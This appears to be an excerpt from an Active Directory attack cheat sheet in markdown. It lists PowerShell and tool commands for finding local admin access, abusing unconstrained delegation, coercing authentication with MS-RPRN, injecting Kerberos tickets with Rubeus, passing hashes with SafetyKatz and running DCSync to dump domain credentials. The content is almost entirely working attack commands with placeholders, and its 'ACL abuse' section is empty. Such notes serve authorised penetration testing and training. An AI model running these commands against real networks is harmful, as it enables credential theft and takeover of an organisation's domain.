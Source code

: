 ```Powershell
RunWithRegistryNonAdmin.bat

# Find local admin access
.\Find-PSRemotingLocalAdminAccess
Find-PSRemotingLocalAdminAccess -Verbose
```

### ACL abuse

```Powershell
```

## Domain privesc

### Unconstrained delegation

NOTE: do this for current domain and for parent domain (DC of parent) => privesc to enterprise admin
```Powershell
Get-DomainComputer -Unconstrained
```

Run shell in context of target or user with permissions on target (or inject ticket in current session)
```Powershell
SafetyKatz.exe "sekurlsa::pth /user:<user> /domain:<domain> /aes256:<hash> /run:cmd.exe" "exit"

# Or

Rubeus.exe asktgt /domain:<domain> /user:<user> /aes:256:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```Powershell
net use x:\\<server>\C$\Users\Public
xcopy C:\AD\Tools\Rubeus.exe x:\Rubeus.exe
net user x: /d

winrs -r:<server> cmd

# Run rubeus in monitor mode for target (e.g. DC)
C:\Users\Public\Rubeus.exe monitor /targetuser:<SERVER>$ /interval:5 /nowrap
```

Locally
```Powershell
MS-RPRN.exe \\<target> \\<server_with_unconstrained_deleg>
```

Copy base64 ticket and inject in new cmd
```Powershell
Rubeus.exe ptt /ticket:<base64_ticket>
```

Run DCSync attack on user (e.g. krbtgt, Administrator, etc.)
```Powershell
SharpKatz.exe --Command dcsync --User <user> --Domain <domain> --DomainController <dc>

SafetyKatz.exe "lsadump::dcsync /user:<user> /domain:<domain>" "exit"

BetterSafetyKatz.exe "lsadump::dcsync /user:<user> /domain:<domain>" "exit"
```
